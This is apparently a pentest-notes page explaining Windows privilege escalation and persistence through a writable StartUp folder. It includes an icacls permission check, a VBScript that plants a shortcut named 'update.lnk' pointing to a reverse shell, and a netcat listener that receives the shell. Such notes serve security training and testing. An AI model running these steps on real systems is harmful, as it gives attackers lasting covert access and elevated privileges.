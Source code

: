 # Startup Programs

One of the privilege escalation technique and so far the easiest ones to exploit it is Startup programs in the `StartUp` folder. Some versions of Windows operating systems vary to one another and it could be server or a workstation do a bit of research to find those locations and this technique is part of persistence mechanism to maintain access.

- **Windows Server 2019**

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

- **Windows 11**

`C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

## 01 - Manual

### 1.1 - Detect

```
C:\> icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp BUILTIN\Users:(OI)(CI)(F)
                                                             WIN-QBA94KB3IOF\Administrator:(I)(OI)(CI)(DE,DC)
                                                             WIN-QBA94KB3IOF\admin:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)
```

### 1.2 - Exploit

We can copy the reverse shell to the `StartUp` folder or we can create a shortcut link file to redirect the path of our reverse shell.

```vbscript
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "<path_to_shell>"
oLink.Save
```

Then execute it then start a shell listener

```
C:\> cscript CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

`$ sudo nc -lvnp 53`
